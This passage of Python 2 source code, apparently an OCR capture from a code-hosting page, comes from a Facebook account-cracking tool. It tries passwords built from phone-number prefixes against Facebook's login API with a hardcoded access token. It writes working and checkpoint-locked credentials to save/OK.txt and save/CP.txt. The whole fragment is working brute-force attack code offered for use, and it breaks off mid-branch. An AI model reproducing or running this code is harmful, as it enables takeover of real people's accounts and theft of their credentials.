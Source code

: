             os.mkdir('save')
 
        except OSError:
 
            pass
 
        try:
 
            pass1 = user
 
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
 
            q = json.load(data)
 
            if 'access_token' in q:
 
                print '\x1b[92m  [OK-MAHIN]  ' + k + c + user + '  |  ' + pass1
 
                okb = open('save/CP.txt', 'a')
 
                okb.write(k + c + user + pass1 + '\n')
 
                okb.close()
 
                oks.append(c + user + pass1)
 
            elif 'www.facebook.com' in q['error_msg']:
 
                print '\x1b[1;91m  [CP-MAHIN#FF0051] ' + k + c + user + '  |  ' + pass1
 
                cps = open('save/CP.txt', 'a')
 
                cps.write(k + c + user + pass1 + '\n')
 
                cps.close()
 
                cpb.append(c + user + pass1)
 
            else:
 
                pass2 = k + c + user
 
                data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
 
                q = json.load(data)
 
                if 'access_token' in q:
 
                    print '\x1b[1;92m  [OK-MAHIN] ' + k + c + user + '  |  ' + pass2
 
                    okb = open('save/OK.txt', 'a')
 
                    okb.write(k + c + user + pass2 + '\n')
 
                    okb.close()
 
                    oks.append(c + user + pass2)
 
                elif 'www.facebook.com' in q['error_msg']:
 
                    print '\x1b[1;92m  [CP-MAHIN] ' + k + c + user + '  |  ' + pass2
 